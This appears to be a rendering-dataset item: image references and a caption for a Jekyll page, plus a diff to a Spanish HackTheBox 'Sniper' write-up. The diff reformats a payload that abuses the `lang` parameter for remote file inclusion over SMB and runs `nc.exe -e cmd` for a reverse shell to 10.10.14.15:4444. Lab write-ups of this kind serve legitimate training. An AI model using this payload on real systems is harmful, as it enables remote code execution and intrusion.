

Before and after one commit to BlackCage/BlackCage.github.io, a Jekyll site: the page built from all_collections/_posts/2022-11-29-sniper-htb.md, in a window 1280 px wide. Shown: the part 2270-4190 px from the top of the page at 81% size, without its empty margins (283-996 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/all_collections/_posts/2022-11-29-sniper-htb.md
+++ b/all_collections/_posts/2022-11-29-sniper-htb.md
@@ -56,7 +56,9 @@ Una vez todo lo anterior esté preparado nos pondremos en escucha por el puerto
 
 Bien, ahora podemos pasar de nuevo a la web, pero ahora cambiaremos un poco el anterior comando, dejando el parámetro `lang` así:
 
-- `lang=\\10.10.14.15\share\cmd.php&cmd=\\10.10.14.15\share\nc.exe -e cmd 10.10.14.15 4444`
+```
+lang=\\10.10.14.15\share\cmd.php&cmd=\\10.10.14.15\share\nc.exe -e cmd 10.10.14.15 4444
+```
 
 Tras unos segundos de espera veremos que nos pudimos entablar la conexión.
 
````
